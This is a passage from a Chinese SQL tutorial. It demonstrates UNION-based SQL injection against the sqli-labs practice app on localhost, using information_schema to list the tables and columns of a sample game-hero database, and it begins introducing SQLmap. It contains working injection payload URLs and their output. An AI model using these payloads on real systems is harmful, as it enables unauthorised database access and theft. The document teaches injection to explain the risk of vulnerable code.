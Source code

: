 ### 查询wucai数据库中所有数据表

在上面的实验中，我们已经得到了MySQL中所有的数据库名称，这里我们能看到wucai这个数据库。如果我们想要看wucai这个数据库中都有哪些数据表，可以使用：

```
    http://localhost/sqli-labs-master/Less-1/?id=' UNION SELECT 1,2,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='wucai') --+
    

```

这里我们同样将数据表名称使用GROUP\_CONCAT函数拼接起来，作为字段3进行返回。

![](./httpsstatic001geekbangorgresourceimage7ea77e1aa81c623e28c87666cfdd290462a7.png)

### 查询heros数据表中所有字段名称

在上面的实验中，我们从wucai数据库中找到了熟悉的数据表heros，现在就来通过information\_schema来查询下heros数据表都有哪些字段，使用下面的命令即可：

```
    http://localhost/sqli-labs-master/Less-1/?id=' UNION SELECT 1,2,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='heros') --+
    

```

这里会将字段使用GROUP\_CONCAT函数进行拼接，并将结果作为字段3进行返回，返回的结果如下所示：

```
    attack_growth,attack_max,attack_range,attack_speed_max,attack_start,birthdate,defense_growth,defense_max,defense_start,hp_5s_growth,hp_5s_max,hp_5s_start,hp_growth,hp_max,hp_start,id,mp_5s_growth,mp_5s_max,mp_5s_start,mp_growth,mp_max,mp_start,name,role_assist,role_main
    

```

![](./httpsstatic001geekbangorgresourceimagef3bff30c7a68fba4fd8eff3ea8370aca00bf.png)

## 使用SQLmap工具进行SQL注入检测

经过上面的实验你能体会到，如果我们编写的代码存在着SQL注入的漏洞，后果还是很可怕的。通过访问`information_schema`就可以将数据库的信息暴露出来。

了解到如何完成注入SQL后，我们再来了解下SQL注入的检测工具，它可以帮我们自动化完成SQL注入的过程，这里我们使用的是SQLmap工具。

下面我们使用SQLmap再模拟一遍刚才人工SQL注入的步骤。

### 获取当前数据库和用户信息
